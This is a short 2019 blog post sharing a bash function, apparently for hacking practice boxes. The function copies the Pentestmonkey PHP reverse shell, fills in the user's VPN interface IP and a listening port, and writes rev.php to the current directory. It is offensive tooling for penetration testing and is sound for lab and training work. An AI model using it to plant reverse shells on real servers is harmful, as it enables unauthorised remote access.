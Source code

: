 ```yaml
---
layout:     post
title:      Kali Linux QoL
date:       2019-09-21 15:20:20
author:     J
summary:    Life's too short
categories: General
thumbnail:  thumbs-up
tags:
 - Linux
 - Kali
---
```


This post will be updated once in a blue moon. Just wanted to share some of my stuff which I use as I think it's good to automate certain processes when hacking boxes. Life's too short to be repeating stuff all the time.


## PHP Reverse Shell Generator

This particular script is for generating a PHP reverse shell with IP address and port preconfigured in the current working directory. This is particularly useful if you find that your IP address has changed due to changing VPNs or just that a new one was issued to you when reconnecting. 

To use, just append it to your `.bashrc` file in your user's home directory and restart your terminal. The original script can be found on [Pentestmonkey here][1]. Replace the ip address in the script to 'ipaddress' and set the port to 443.

Alternatively, you can download the [pre-modified version on my Github][2] to use with this script. Change the directory in the script to where you saved the script to.

Usage: `phprev <Interface> <Optional: Listening Port>`


~~~bash

# Create PHP reverse shell in current directory. Usage example: phprev tun0 1234
# Defaults to port 443 if port is not specified

function phprev() {
        phprevshelldir=/root/Try-Harder/Scripts/Shells/php-reverse-shell.php #CHANGE THIS
        if [ $# -eq 0 ]; then echo "Please define interface"
        else
            revip=`ifconfig $1 | head -n2 | tail -n1 | awk '{print $2}' `
            cp $phprevshelldir ./rev.php && sed -i 's/ipaddress/'$revip'/g' rev.php
                if [ $# -eq 2 ]; then
                revport=$2 ;
                sed -i 's/443/'$2'/g' rev.php
                else revport=443
                fi
            echo "PHP reverse shell(rev.php) created and configured to connect back to:" $revip:$revport
        fi
}



~~~

[1]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[2]: https://github.com/Dreamscent/Try-Harder/blob/master/Scripts/Shells/php-reverse-shell.php
